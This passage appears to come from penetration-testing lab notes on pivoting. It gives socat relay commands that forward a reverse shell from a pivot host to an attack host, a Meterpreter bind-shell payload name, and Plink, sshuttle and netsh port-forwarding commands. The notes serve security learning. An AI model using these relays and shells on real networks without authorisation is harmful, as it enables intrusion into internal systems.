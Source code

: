 `socat` needs to be run on the pivot host: `socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80`.

* Here, we set `socat` to listen on port 8080 and forward traffic to our attack host on port 80.

Then, set up a listener on our attack host, and run the `msfvenom` payload on our target to start the reverse shell.

### Bind Shell

Similarly, set up `socat`: `socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443`.

* Listen on port 8080 of our attack host, and forward packets to the target host on port 8443.

Then, create the bind shell payload for the target to listen on port 8443. Finally, set up the `multi/handler` on our attack host to establish a bind shell connection.

* Windows Bind shell payload: `windows/x64/meterpreter/bind_tcp`

## Pivoting Tools

### Plink (SSH Windows)

Plink (part of the PuTTY package) can be used for creating dynamic port forwards and SOCKS proxies:
`plink -ssh -D 9050 ubuntu@10.129.15.50`

After the dynamic port forward is created, we can use a tool called `Proxifier` to route our traffic (similar to `proxychains` on Linux).

### Sshuttle

`sshuttle` is an alternative to `proxychains`, but it only works for SSH pivoting (and not TOR/HTTPS).

* Useful for automating the execution of `iptables` and adding pivot rules.

We can run `sshuttle` and it will automatically create an `iptables` entry on our attack host:
`sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v`

* Use `-r` option to specify the remote host, and include the CIDR block of our target network through the pivot host.
* Once this is done, we can directly run commands like `nmap` without the need for `proxychains`, we just specify our target host (i.e., the private IP address) and port number.

### Windows Netsh

Port forwarding with `Netsh.exe`:

```cmd-session
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

* The port forward can be verified with `netsh.exe interface portproxy show v4tov4`

### Ligolo-ng

Set-up on attack host:
